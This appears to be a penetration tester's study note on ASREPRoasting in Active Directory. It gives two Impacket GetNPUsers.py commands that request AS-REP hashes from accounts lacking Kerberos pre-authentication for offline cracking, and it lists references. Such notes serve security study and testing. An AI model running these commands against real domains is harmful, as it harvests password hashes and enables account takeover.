 # Unix Shell

## 01 - Conditions

Same exact approach like for the ServicePrincipalName for Kerberoasting as the same as the following two conditions for it. However, the only different in different hash encryption since we are ASREPRoasting (refer to [[Tactics && Techniques && Procedures (TTPs) Phases/Initial Access/Password Cracking/Offline/JTR#^0c9a3c|JTR]] or [[Hashcat#^6d0af5|Hashcat]] section **under Offline Password Cracking**).

## 02 - Impacket

- Request a Kerberos 5, etype 23, AS-REP hash from an NP user account

```
$ GetNPUsers.py -request -dc-ip <IP> <domain_name>/<username>:<password>

$ GetNPUsers.py -request -dc-ip <IP> <domain_name> -usersfile users.lst
```

---
## References

- [Hacking Articles: ASREPRoasting](https://www.hackingarticles.in/as-rep-roasting/)

- [Hacking Articles: Abusing Kerberos Using Impacket](https://www.hackingarticles.in/abusing-kerberos-using-impacket/)

- [Pentestlab Blog: AS-REP Roasting](https://pentestlab.blog/2024/02/20/as-rep-roasting/)

- [Hacktricks Active Directory Methodology ASREPRoast](https://book.hacktricks.xyz/windows/active-directory-methodology/asreproast)

- [XPNSec: Kerberos AD Attacks - More Roasting with AS-REP](https://blog.xpnsec.com/kerberos-attacks-part-2/)

- [Hashcat example hashes](https://hashcat.net/wiki/doku.php?id=example_hashes)